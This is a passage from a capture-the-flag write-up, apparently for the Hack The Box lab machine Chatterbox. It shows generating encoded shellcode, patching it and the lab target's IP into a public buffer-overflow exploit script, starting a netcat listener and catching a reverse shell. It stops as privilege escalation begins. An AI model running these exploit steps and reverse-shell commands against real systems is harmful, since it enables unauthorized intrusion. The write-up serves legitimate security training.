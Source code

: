 We get back the following result.

```text
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/unicode_mixed
x86/unicode_mixed succeeded with size 774 (iteration=0)
x86/unicode_mixed chosen with final size 774
Payload size: 774 bytes
Final size of python file: 3767 bytes
buf =  b""
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
buf += b"\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51\x41\x44\x41"
buf += b"\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41\x51"
buf += b"\x41\x49\x41\x51\x41\x49\x41\x68\x41\x41\x41\x5a\x31"
buf += b"\x41\x49\x41\x49\x41\x4a\x31\x31\x41\x49\x41\x49\x41"
buf += b"\x42\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49\x41"
buf += b"\x49\x51\x49\x31\x31\x31\x41\x49\x41\x4a\x51\x59\x41"
buf += b"\x5a\x42\x41\x42\x41\x42\x41\x42\x41\x42\x6b\x4d\x41"
......[truncated]
```

The payload size is 774 bytes, so within the limit. Copy the payload and add it in place of the payload included in the exploit. Also change the IP address to Chatterbox’s IP address.

```text
# Create a UDP socket
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
server_address = ('10.10.10.74', 9256)
```

Then setup a listener on the attack machine to receive the reverse shell.

```text
nc -nlvp 1234
```

Run the exploit.

```text
root@kali:~/Desktop/htb/chatterbox# python 36025.py 
---->{P00F}!
```

We get a shell!

![](https://miro.medium.com/max/882/1*XK-pIFAJyBDZVuw7RA4MSQ.png)

Grab the _user.txt_ flag.

![](https://miro.medium.com/max/611/1*AxvyV0VE64vlTeih-UKZIA.png)

We’re running as a low privileged user, so we’ll need to escalate privileges.

## Privilege Escalation <a id="ff1c"></a>

Display the user account information.
